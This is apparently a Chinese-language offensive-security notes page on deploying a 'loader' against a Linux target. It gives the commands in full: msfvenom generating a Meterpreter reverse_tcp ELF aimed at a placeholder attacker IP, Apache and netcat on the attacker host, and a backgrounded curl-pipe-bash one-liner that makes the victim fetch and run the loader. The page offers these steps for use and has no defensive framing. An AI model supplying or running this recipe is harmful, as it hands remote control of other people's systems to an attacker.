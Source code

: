 ## Loader

下载脚本到 Web 目录

```shell
┌──(root㉿kali)-[~]
└─# wget https://raw.githubusercontent.com/jadensalas469466/tools/refs/heads/main/attack/loader.sh -O /var/www/html/upload/loader.sh
```

在云服务器上生成 Payload

```shell
┌──(root㉿kali)-[~]
└─# msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=[attack_ip] LPORT=[port] -f elf -o /var/www/html/upload/payload
```

开启 Web 服务并使用 Netcat 监听 `[port]` 端口

```shell
┌──(root㉿kali)-[~]
└─# systemctl start apache2.service && nc -l -p [port]
```

使目标下载 Loader 脚本，即可上线

```shell
root@debian:~# nohup curl -fsSL http://[attack_ip]/upload/loader|bash -sh > /dev/null 2>&1 &
```

---

参考链接

- [Loader](https://github.com/jadensalas469466/tools/blob/main/attack/loader.sh)

